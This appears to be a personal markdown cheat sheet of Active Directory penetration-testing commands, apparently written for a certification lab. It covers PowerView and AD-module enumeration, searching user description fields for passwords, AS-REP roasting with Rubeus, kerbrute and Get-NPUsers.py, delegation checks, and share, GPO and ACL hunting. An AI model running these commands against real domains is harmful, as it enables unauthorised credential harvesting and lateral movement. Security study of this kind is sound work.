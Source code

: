 ```yaml
---
layout: app
title: "Active Directory"
tags: ["PASSWD_NOTREQD","enumeration","unconstrain delegation","kerberos","Double-hop", "GPO","OU", "finduserdomain","asreproasting"]

---
```


# Create Lab

[https://jesspomfret.com/automatedlab-sql-server/](https://jesspomfret.com/automatedlab-sql-server/)

## Enable PSRemoting

```powershell
Enable-PSRemoting 
```

## Client

### Join To Domain

```powershell
Add-Computer -DomainName lab.com -Credential lab\Administrator -Force -Restart
```

### Connect to Remote Desktop

```powershell
New-PSSession -ComputerName
Start-Service WinRm
Get-Item wsman:\localhost\
Set-Item wsman:\localhost\Client\TrustedHosts -value  192.168.85.130
New-PSSession -ComputerName "IP Address"  -Credential (Get-Credential)
Enter-PSSession <Session Id>

$dc = New-PSSession -ComputerName <IP Address>  -Credential (Get-Credential)
Enter-PSSession $dc
```

# Passwords in Description Field 

```
(PowerView)> Get-DomainUser * | Select-Object samaccountname,description | Where-Object {$_.Description -ne $null}
```

 # ASREPRoasting

**DONT_REQ_PREAUTH** attribute user account

## Get users with DONT_REQ_PREAUTH attribute

```powershell
(PowerView)> Get-DomainUser -PreauthNotRequired | select samaccountname, userprincipalname, useraccountcontrol | fl
```
```
.\Rubeus.exe asreproast /user:<USER> /nowrap /format:hashcat
```
```bash
kerbrute userenum -d <domain> --dc <Domain IP address> <wordlists>
```
```python
Get-NPUsers.py <DOMAIN/> -dc-ip <Domain IP> -no-pass -usersfile <wordlists>
```

# PASSWD_NOTREQD
[https://blog.icewolf.ch/archive/2011/06/08/how-to-read-the-value-of-ad-attribute-useraccountcontrol/](https://blog.icewolf.ch/archive/2011/06/08/how-to-read-the-value-of-ad-attribute-useraccountcontrol/)

```
(PowerView)> Get-DomainUser -UACFilter PASSWD_NOTREQD | select samaccountname,useraccountcontrol
```


# Double-Hob

## Detect 

```powershell
 Get-AdComputer -Filter {(TrustedForDelegation -eq $True) -And (PrimaryGroupId -eq 515)} -Properties TrustedForDelegation,TrustedForDelegation,servicePrincipalName,Description

Description          :
DistinguishedName    : CN=DESKTOP-1FEQU90,CN=Computers,DC=crtp,DC=lab
DNSHostName          : DESKTOP-1FEQU90.crtp.lab
Enabled              : True
Name                 : DESKTOP-1FEQU90
ObjectClass          : computer
ObjectGUID           : 215830a5-d4df-45c3-8af2-fc6147cb239b
SamAccountName       : DESKTOP-1FEQU90$
servicePrincipalName : {RestrictedKrbHost/DESKTOP-1FEQU90, HOST/DESKTOP-1FEQU90, RestrictedKrbHost/DESKTOP-1FEQU90.crtp.lab, HOST/DESKTOP-1FEQU90.crtp.lab}
SID                  : S-1-5-21-632435846-1015186707-1740185088-1721
**TrustedForDelegation** : True
UserPrincipalName    :

```

[https://adsecurity.org/?p=1667](https://adsecurity.org/?p=1667)

[https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)

[https://github.com/tevora-threat/SharpView/](https://github.com/tevora-threat/SharpView/)

# PowerView

[https://powersploit.readthedocs.io/en/latest/Recon](https://powersploit.readthedocs.io/en/latest/Recon/)
[https://github.com/ZeroDayLab/PowerSploit/blob/master/Recon/PowerView.ps1](https://github.com/ZeroDayLab/PowerSploit/blob/master/Recon/PowerView.ps1)
## Enumeration

### [AdModule](https://github.com/samratashok/ADModule)

```powershell
Import-Module Microsoft.ActiveDirectory.Management.dll -Verbose
Get-ADDomain
```

### Get Password Policy

```powershell
(Get-DomainPolicyData).SystemAccess

(Get-DomainPolicyData).KerberosPolicy
```

### Get Domain SID

```powershell
Get-DomainSID
```

### Users

```powershell
Get-DomainUser

Get-DomainUser -Identity [username] -Properties *

Get-DomainUser -LdapFilter "Description=*built*" | Select name,Description
```

### Get Group Names of the user
```powershell
Get-DomainGroup -UserName Administrator
```

### Computers
```powershell
Get-DomainComputer
```

### Get Groups

```powershell
Get-DomainGroup 
Get-DomainGroup *admin*
```

#### Get Members of Group

```powershell
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
Get-NetGroupMember Group | Select MemberName
```


# Find Information

## Find domain Admin

Finds domain machines where specific users are logged into.


```powershell
(Powerview.ps1) Find-DomainUserLocation
```

#### Find shares on hosts in current domain

```powershell
Invoke-ShareFinder –Verbose
```

#### Find sensitive files on computers in the domain

```powershell
Invoke-FileFinder –Verbose
```

#### Get all fileservers of the domain
```powershell
Get-NetFileServer
```

# GPO

```powershell
Get-DomainGPO
Get-DomainGPO -ComputerIdentity PC001
```

### Get GPO(s) which use Restricted Groups or groups.xml for interesting users

```powershell
Get-DomainGPOLocalGroup
```

### Get users which are in a local group of a machine using GPO

```powershell
Get-DomainGPOComputerLocalGroupMapping –ComputerIdentity PC01
```

### Get machines where the given user is member of a specific group

```powershell
Get-DomainGPOUserLocalGroupMapping -Identity student1 -Verbose
```


### Get all computers from MachineOU OU
```powershell
(Get-DomainOU -Identity MachineOU).distinguishedname | %{Get-DomainComputer -SearchBase $_} | select Name
```

### ACL

```powershell
Get-DomainObjectAcl -SamAccountName "username" -ResolveGUIDS
Get-DomainObjectAcl -SearchBase "LDAP://CN=Domain Admins, CN=Users,DC=crtp,DC=lab" -ResolveGUIDS
```
```powershell
 Find-InterestingDomainAcl -ResolveGUIDs
 Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "username"}
```


# AllowReversiblePasswordEncryption 

```powershell
Get-ADUser -Filter {AllowReversiblePasswordEncryption -eq "true"} | Select Name, sAMAccountName
```

